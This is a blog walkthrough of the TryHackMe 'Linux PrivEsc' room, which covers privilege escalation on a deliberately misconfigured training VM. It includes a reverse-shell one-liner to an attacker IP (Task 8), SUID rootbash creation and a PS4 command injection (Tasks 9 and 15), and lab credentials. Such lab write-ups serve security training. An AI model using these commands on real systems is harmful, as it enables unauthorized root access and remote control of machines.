









---
categories:
- Security
- TryHackMe
date: 2021-03-16 07:47:31 +0530
description: 'Practice your Linux Privilege Escalation skills on an intentionally
  misconfigured Debian VM with multiple ways to get root! SSH is available. Credentials:
  user:password321'
img_path: /assets/
published: true
tags:
- tryhackme
- tutorial
- security
- linux
title: TryHackMe - Linux PrivEsc
---


Cover Image by [BiZkettE1](https://www.freepik.com/free-vector/modern-business-background-with-geometric-shapes_5287944.htm) on Freepik

## Task 1: Deploy the Vulnerable Debian VM

1. **Deploy the machine and log in to the "user" account using SSH.**


**Note:** Replace the IP Address with the Machine IP Address shown on TryHackMe

> No answer required

2. **Run the "id" command. What is the result?**


> uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)

## Task 2: Service Exploits

In this task, we are going to exploit the MySQL server which does not have a root password and use SQL functions to get root privileges on the system.

[MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2) - Linux local Exploit](https://www.exploit-db.com/exploits/1518)

The exploit is already downloaded and present on the system in the "/home/user/tools/mysql-udf" directory. Follow the instructions given in the write-up to exploit this vulnerability.

Firstly we are compiling the C code that will allow us to exploit the vulnerability. Then login into MySQL root user.


For more information on the options that are used to compile the C code refer to GCC Manual

[gcc(1) - Linux manual page](https://man7.org/linux/man-pages/man1/gcc.1.html)

In the database, we are creating a table then load a file into the table and write the data back to another file (as MySQL is run as root the saved file will also be owned by the root user). A UDF called "do_system" is created which uses the written file to create a new binary file that will give us root privileges.



When we run the binary file that was created using MySQL we see that now we have become the root user.


1. **Read and follow along with the above.**

> No answer required

## Task 3: Weak File Permissions - Readable /etc/shadow

The list of all the users on Linux is saved in the "/etc/passwd' file and the password after hashing for all the users is saved in the "/etc/shadow" folder.

[Understanding the /etc/shadow File \| Linuxize](https://linuxize.com/post/etc-shadow-file/)

[Understanding the /etc/passwd File \| Linuxize](https://linuxize.com/post/etc-passwd-file/)


The shadow file in this system is readable and writable by anyone which is an issue. Now let's see how we can use this to our advantage to gain root access.

Save the hashed password of the root user (Everything between the 1st and 2nd ":" sign) in a file in your Kali System. Let's see what hash was used for hashing the file.


We see that the password for the root user was hashed using SHA-512. Now let's use John to crack the password.


We have found the password for the root user "password123".


1. **What is the root user's password hash?**

> \$6\$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0

2. **What hashing algorithm was used to produce the root user's password hash?**

> sha512crypt

3. **What is the root user's password?**

> password123

## Task 4: Weak File Permission-Writable /etc/shadow

As we saw in the previous task the shadow file on the system is readable and writable by anyone. So instead of cracking the password we could just make a new password and replace the old one.

Let's make a new password using the SHA-512 hash.



Replace the hash of the root user with the hash that we just generated.


Once we change the hash in the file we can log in as the root user using the new password that we just generated.


1. **Read and follow along with the above.**

> No answer required

## Task 5: Weak File Permission-Writable /etc/passwd

The "/etc/passwd" file on Linux consists of information regarding the various users on the system. On some (old) systems we are allowed to save the password hash in this file as well. If the file is not write-protected for all users we can exploit this misconfiguration to access the root user account.

Let's create a new password using the "openssl" command


Now let's create a new entry in the "/etc/passwd" file that is the same as the line for the root user and replace the name "root" with "newroot". Finally, in place of the "x" (The "x" that is present between the 1st and 2nd ":" sign) let's use the hash that we just generated.



Now let's see if we can log in as the user "newroot" which should have the same permissions as the root user.


1. **Run the "id" command as the newroot user. What is the result?**

> uid=0(root) gid=0(root) groups=0(root)

## Task 6: Sudo - Shell Escape Sequences

A normal user can see the applications that he/she is allowed to run using the "sudo -l" command


We can see that there are multiple applications that we can run as root without a password. Let's visit GTOBins and see if any of these applications provide us with an easy way to get root privileges.

[GTFOBins](https://gtfobins.github.io/)

Let's see if using Vim if we can spawn a root user shell. In the section for Vim, we see that multiple commands allow us to escalate privileges.


Let's use the first command and see if we can get a root shell. If we look through GTOBins for the other applications that we have permission to run without passwords we can see that all of them (except Apache2) can be exploited to get a root shell.


1. **How many programs is the "user" allowed to run via sudo?**

> 11

2. **One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?**

> Apache2

3. **Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.**

We could try out the options that the application provides and see if any of them can be exploited. We can also check if there are any known exploits for the service and use them to gain root privileges.

> No answer required

## Task 7: Sudo - Environment Variables

Sudo can be configured to inherit certain environment variables from the current user. We can view these using "sudo -l".


LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

[Linux Privilege Escalation using LD_Preload - Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)

Let's create a shared object using the code "/home/user/tools/sudo/preload.c"


Looking at the code we can see that there is a function that calls `unsetenv()` which is being used to clear the current values of the "LD_PRELOAD" environment variable. Then using `setresuid()` we are changing the effective and real userid and groupid to 0 (root) and finally making a system call to spawn an elevated bash shell.

Follow the instructions that are given in the write-up to see this exploit in action.



As we can see we have managed to spawn a root shell.

The same can be done using the LD_LIBRARY_PATH environment variable as well. Follow the steps shown in the write-up.


What if we try using another shared library will the attack still work? Let's find out by trying to use another shared file.



Initially, when we changed the name of the library file that we created we got an error saying that some function was not found but after adding the function that was required by the library file we were able to get a root shell.

1. **Read and follow along with the above.**

> No answer required

## Task 8: Cron Jobs - File Permissions

Cron jobs are programs or scripts which users can schedule to run jobs at different times automatically. The Cron table (crontab) stores the list of all the cron jobs. The system-wide crontab is located at /etc/crontab.


By looking at the tasks we can see that two scripts are scheduled to run every minute. Another thing that we observe is that both tasks are scheduled by the "root" user so if we can modify the script the new code will also run with root privileges.

Looking at the permissions on the script file we see that it is writable by anyone. Change the content of the file with the following:

```
#!/bin/bash  
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

**Note:** Replace the IP Address in the script with the TryHackMe VPN IP Address which can be found by running "ip a show tun0" on your Kali machine and looking under Inet.

Then we can set up a listener on your Kali Machine which should give us a root shell (should take less than a minute to get a connection)


1. **Read and follow along with the above.**

> No answer required

## Task 9: Cron Jobs - PATH Environment Variable


We can see that in the cron table. there is a line that specifies the PATH to check for the scripts whose absolute paths haven't been specified. We can exploit this to run arbitrary code. From the previous task, we know that the "overwrite.sh" file is located in "/usr/local/bin" which is the 3rd location in the PATH variable. We can create a new file with the same name (overwrite.sh) and place it in a location that is the 1st or 2nd location in the PATH variable.

When cron wants to run "overwrite.sh" it will look at all the locations in the PATH variable for the script (since we haven't specified the absolute path to the script). When it checks the 1st location it will find a file with the required name (the one we created) and since it found a file with the name required it will not check the rest of the locations specified in the PATH variable.

So let's create a file with the name "overwrite.sh" in "/home/usr" and add the following code:

```
#!/bin/bash  
  
cp /bin/bash /tmp/rootbash  
chmod +xs /tmp/rootbash
```

Now whenever cron wants to run overwrite.sh it will run our code (as our code is first in the PATH location) which will in turn spawn a root shell

1. What is the value of the PATH variable in /etc/crontab?**

> /home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

## Task 10: Cron Jobs - Wildcards

Let's view the content of the other scheduled script.


We can see that the code periodically is making a backup of the entire "/home/user" folder. The important point to note here is the "\*" that is used to represent any file. This can be exploited if not used correctly.

We can make files that have the same name as the options (flags) that are provided by the tar utility and tar will consider these files as options, not as file names.

Let's create a payload using "msfvenom" that we will make the tar utility execute which should give us a reverse shell.


Now let's download the generated ELF file onto the target by using Python to host the file and wget to download the file.

```
python3 -m http.server 1234
```


After downloading the file let's make files that have names that are the same as options (flags) that can be passed to the tar command. Using these options we should be able to execute the payload that we created.


And as we can see we have managed to set up a reverse shell (the connection should take less than a minute to be established)

1. **Read and follow along with the above.**

> No answer required

## Task 11: SUID / SGID Executables - Known Exploits

We can view all the executable files on the system that can set UID/GID using the following command:

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```


[How to Find Files With SUID and SGID Permissions in Linux](https://www.tecmint.com/how-to-find-files-with-suid-and-sgid-permissions-in-linux/)

[What are Sticky Bit, SUID and SGID in Linux - TecAdmin](https://tecadmin.net/understanding-sticky-bit-suid-and-sgid-in-linux/)

There is a service called "exim-4.84-3" that appears in the vulnerable list let's look in searchsploit on our Kali Machine if there are any exploits available.


And we see that the version that we have installed has a Local Privilege Escalation exploit. The exploit required is already present on the target machine `/home/user/tools/suid/exim/cve-2016-1531.sh` let's run it and see if we can get the root shell.


1. **Read and follow along with the above.**

> No answer required

## Task 12: SUID / SGID Executables - Shared Object Injection

The executable `/usr/local/bin/suid-so` is vulnerable to shared object injection. Let's see this attack in action. First, let's run the executable and see what it does. We see that it prints a progress bar on the terminal.

Let's use the strace command (Stack Trace) on the executable to see all libraries and files where accessed by the executable.


We can see that the executable depends on a library file called "libcalc.so" that should be present in the user directory.


We add code into that file that will set the UID to 0 (root) and then spawn an elevated shell. Let's compile this file and see if running the executable will cause our library to be loaded which in turn will spawn a root shell.


And as well can see we were able to spawn a root shell.

1. **Read and follow along with the above.**

> No answer required

## Task 13: SUID / SGID Executables - Environment Variables

When we try to execute the binary `/usr/local/bin/suid-env` we see that it is trying to start the "Apache" server.

Using the strings command let's have a look at the content of the binary file. The strings command will return lines in the file that are human-readable.


We can see that towards the end there is a line where using service the apache2 server is being started. The absolute path to the service executable is not specified in the file. We could make a new function that has the name service and use that to start apache2. If we add code to get a root shell in the service function we should be able to spawn a root shell.


1. **Read and follow along with the above.**

> No answer required

## Task 14: SUID / SGID Executables - Abusing Shell Features (#1)

We have a service "/usr/local/bin/suid-env2" that works the same as the one used in the previous task but instead of just using the executable name the entire path to the file service executable has been used. We can verify this by using the strings command.


In Bash versions less than "4.2-048" it's possible to define functions that have names that look like paths on the system. We can use this to create a malicious function that will spawn a root shell for us.



1. **Read and follow along with the above.**

> No answer required

## Task 15: SUID / SGID Executables - Abusing Shell Features (#2)

This exploit does not work on "**Bash version 4.4 and above**".

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements. We can modify the PS4 prompt to code that will spawn a root shell.

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```


1. **Read and follow along with the above.**

> No answer required

## Task 16: Passwords & Keys - History Files

If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file. The content of the history file can be viewed using the following command:

```
cat ~/.*history | less
```


And as we can see the password for the root user is present in plain text in the history file.


1. **What is the full mysql command the user executed?**

> mysql -h somehost.local -uroot -ppassword123

## Task 17: Passwords & Keys - Config Files

Config files often contain passwords in plaintext or other reversible formats.

Let's have a look at the content of the home directory. We can see an OpenVPN configuration file. In the configuration file, we can see a line that is pointing to "auth.txt" for username and password.



When we view the contents of that file we see that the password and username are present in plaintext.


1. **What file did you find the root user's credentials in?**

> /etc/openvpn/auth.txt

## Task 18: Passwords & Keys - SSH Keys

Sometimes users make backups of important files but fail to secure them with the correct permissions. Let's have a look at the hidden files in the root directory.


In the ssh folder, we can see a file called "root_key" which looks like is the key for the root user. The file is readable by anyone on the system which should have not been the case.

Copy the content of the file and on our Kali system let's make a file called "root_key" and paste the content into this file. Using this key we should be able to log in as root via SSH.



**Note:** Make sure to change the permissions of the "root_key" file else SSH will not allow us to use the file.



1. **Read and follow along with the above.**

> No answer required

## Task 19: NFS

Files created via NFS inherit the **remote** user's ID. If the user is a root, and root squashing is enabled, the ID will instead be set to the "nobody" user. The configuration for the NFS user is present in the `/etc/exports` file.


We see that for the /tmp directory the "no_root_squash" flag is set which means the folder used in NFS is owned by the root all the files that are put in the folder are also going to have root privileges.

Let's go to our Kali machine and change to the root user. Make a folder and mount the /tmp folder on the target to the new folder that we create. Finally, let's create a payload that when executed with root privileges should spawn a root shell.


Now from the target machine when we execute the file we can see that we gave got a root shell.


1. **What is the name of the option that disables root squashing?**

> no_root_squash

## Task 20: Kernel Exploits

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort. Run the **Linux Exploit Suggester 2** tool to identify potential kernel exploits on the current system:

```
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```


[GitHub - jondonas/linux-exploit-suggester-2: Next-Generation Linux Kernel Exploit Suggester](https://github.com/jondonas/linux-exploit-suggester-2)

[Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method) - Linux local Exploit](https://www.exploit-db.com/exploits/40616)

The popular Linux kernel exploits **"Dirty COW"** should be listed. Exploit code for Dirty COW can be found at **/home/user/tools/kernel-exploits/dirtycow/c0w.c**. It replaces the SUID file /usr/bin/passwd with one that spawns a shell.

So after running the exploit if we use the passwd binary file we should get a root shell.


1. **Read and follow along with the above.**

> No answer required

## Task 21: Privilege Escalation Scripts

Several tools have been written that help in finding potential privilege escalations on Linux. Three of these tools have been included on the Debian VM in the following directory: `/home/user/tools/privesc-scripts`


[PEASS-ng/linPEAS at master · carlospolop/PEASS-ng · GitHub](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

[GitHub - rebootuser/LinEnum: Scripted Local Linux Enumeration & Privilege Escalation Checks](https://github.com/rebootuser/LinEnum)

[GitHub - diego-treitos/linux-smart-enumeration: Linux enumeration tool for pentesting and CTFs with verbosity levels](https://github.com/diego-treitos/linux-smart-enumeration)

Let's use linpeas.sh and see if we can find the same vulnerabilities in the system.


1. **Experiment with all three tools, running them with different options. Do all of them identify the techniques used in this room?**

As we can see LinPEAS was able to find the vulnerabilities that were discussed in the various sections. Similarly, the other two tools can be used to Enumerate information about the system.

> No answer required

That's all. Happy Hacking :)